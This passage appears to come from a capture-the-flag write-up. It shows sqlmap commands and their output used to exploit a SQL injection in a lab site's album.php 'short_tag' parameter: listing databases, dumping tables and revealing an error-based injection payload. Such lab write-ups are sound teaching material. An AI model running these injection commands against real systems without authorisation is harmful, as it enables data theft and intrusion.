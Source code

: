 ```console
$ sqlmap -u 'http://10.10.152.169/album.php?short_tag=smart' -p short_tag --risk 3 --level 5 --threads 10 --batch --dbs
...
available databases [2]:
[*] information_schema
[*] web
```
{: .wrap }

Dumping the `web` database, there are two tables in it: `images` and `albums`, with nothing seemingly important.

```console
$ sqlmap -u 'http://10.10.152.169/album.php?short_tag=smart' -p short_tag --risk 3 --level 5 --threads 10 --batch -D web --hex --dump

Database: web
Table: images
[16 entries]
+----+----------+----------------------------+
| id | album_id | path                       |
+----+----------+----------------------------+
| 1  | 1        | /var/www/images/cat1.jpg   |
| 2  | 1        | /var/www/images/cat2.jpg   |
| 3  | 1        | /var/www/images/cat3.jpg   |
...
| 16 | 3        | /var/www/images/cat16.webp |
+----+----------+----------------------------+
...
Database: web
Table: albums
[3 entries]
+----+----------------+-----------+--------------------------+
| id | name           | short_tag | description              |
+----+----------------+-----------+--------------------------+
| 1  | Cute cats      | cute      | Cutest cats in the world |
| 2  | Smart cats     | smart     | So smart...              |
| 3  | Favourite cats | fav       | My favourite ones        |
+----+----------------+-----------+--------------------------+
```
{: .wrap }

Since we also have access to the `information_schema` database, we can run **sqlmap** with the `--statement` flag to fetch the current **SQL** statement we are injecting into.

```console
$ sqlmap -u 'http://10.10.152.169/album.php?short_tag=smart' -p short_tag --risk 3 --level 5 --batch -D web --statement --hex

SQL statements [1]:
[*] SELECT id from albums where short_tag = 'smart' AND (SELECT 2144 FROM(SELECT COUNT(*),CONCAT(0x717a6b7671,(SELECT MID((HEX(IFNULL(CAST(INFO AS NCHAR),0x20))),301,16) FROM INFORMATION_SCHEMA.PROCESSLIST),0x71786b6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IVDO'
```
{: .wrap }
